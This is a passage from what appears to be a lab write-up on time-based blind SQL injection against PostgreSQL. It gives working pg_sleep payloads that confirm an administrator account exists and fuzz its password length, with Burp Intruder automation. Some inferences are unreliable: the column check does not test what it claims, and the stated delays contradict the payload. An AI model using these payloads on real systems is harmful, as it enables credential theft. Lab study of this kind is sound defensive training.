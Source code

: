 
- **Description**: Queries the `users` table for a row where `username='administrator'`. A 10-second delay indicates the user exists.
- **Result**: ~10,292 ms (indicating the `username` column and `administrator` user exist).
- **Conclusion**: The `username` column exists, and there is an `administrator` user.

## Step 4: Check for `password` Column

### Objective
Verify if the `password` column exists in the `users` table.

### Payload
```sql
' || (SELECT CASE WHEN (COUNT(*)>0) THEN pg_sleep(10) ELSE pg_sleep(-1) END FROM users) --
```

 ![image](https://github.com/user-attachments/assets/e55f747e-760d-4c76-9eed-d46025d280cc)

- **Description**: Checks if there are any rows in the `users` table, implying the existence of columns (including `password`). A 10-second delay confirms the presence of data.
- **Result**: ~10,295 ms (indicating the `password` column exists).
- **Conclusion**: The `password` column exists in the `users` table.

## Step 5: Enumerate Password Length for `administrator`

### Objective
Determine the length of the `administrator` user's password.

### Payload
```sql
' || (SELECT CASE WHEN (username='administrator' AND LENGTH(password)=FUZZ) THEN pg_sleep(20) ELSE pg_sleep(-1) END FROM users) --
```

- **Description**: Uses a fuzzing approach to test different password lengths (`FUZZ`). A 10-second delay indicates the correct length.
- **Initial Test**: Testing with `LENGTH(password)=1` resulted in a 30-second delay, suggesting the password length is not 1. Modified the `ELSE` clause to `pg_sleep(-1)` for faster enumeration.

![image](https://github.com/user-attachments/assets/ea7620d7-12eb-425a-b464-05fa538ffa93)

- **Automation**:
  - Sent to Burp Suite Intruder.

    ![image](https://github.com/user-attachments/assets/6601d4ae-f99e-4c9b-abc9-64eb7a12f453)

  - Configured payload to test integer values for `FUZZ` (e.g., 1 to 30).
  
    ![image](https://github.com/user-attachments/assets/411eff8d-3368-433e-9e2f-b0886e835f02)

  - Launched attack and observed a 10-second delay for `LENGTH(password)=20`.
